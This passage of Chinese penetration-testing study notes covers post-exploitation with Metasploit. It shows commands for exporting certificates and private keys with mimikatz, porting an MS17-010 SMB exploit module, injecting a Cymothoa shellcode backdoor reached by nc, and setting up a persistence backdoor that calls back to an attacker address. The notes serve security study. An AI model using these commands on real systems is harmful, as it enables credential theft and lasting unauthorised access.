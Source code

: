 ```bash
mimikatz_command -f crypto::  # crypto可以列出 导出任何证书，以及存储在目标机器上的相应的私钥

# mimikatz 也支持PowerShell调用
脚本P228


能在PowerShell中执行mimikatz，偷窃和注入凭证，伪造Kerbero票证创建，还有其他很多功能
```



###### 后渗透攻击：移植漏洞利用代码模块
支持不同语言编写的模块移植进去，允许开发者开发自己的漏洞利用模块


MS17-010 --> 微软SMB远程代码执行漏洞

演示：移植MS17-010漏洞利用代码
```bash
# MS17-010 在msf中虽然有集成脚本，但是不适用于03系统，从网上自行下载
# clone脚本到本地，把rb脚本复制到/usr/share/metasploit-framework/modules/exploits/windows/smb下
raload all  # 然后在msf中重新加载脚本
之后就能search到了，用use加载它
# 开始
msfovenom 生成一个DLL文件(在下面set payload)
然后设置该模块的参数
run



```



###### 后渗透攻击：后门
提取完成之后，就需要留后门了  

1.操作系统后门
```bash
##### 1.Cymothoa后门
可以将ShellCode注入到现有进程的后门工具
该后门能与被注入进程共存，且如果不检查内存是发现不了的
该后门注入系统的某一进程，返回的是该进程相应的权限(并不需要root)， 但是关闭进程或重启，后门就会停止运行

ps -aux  # 查看程序的pid， Win下是 tasklist
# -p指定目标进程的PID，-y指定payload服务端口，-s指定ShellCode编号(cymothoa -S 查看) 
cymothoa -p 862 -s 1 -y 5555
# 连接后门
nc -nvv 192.168.0.112 5555




##### 2.Persistence后门
使用安装自启动方式的持续型后门，可以用它创建注册表和文件
run persistence -h  # 查看命令选项
# 创建持久型后门
run persistence -A -S -U -i 60 -p 4321 -r 162.168.0.112 
# -A自动启动payload，-S系统启动时自动加载，-U用户登录时自动启动， -X开机时自动加载，-i回连时间间隔，-P监听端口号， -r 目标机器地址

sessions  # 发现会话已成功获取
```
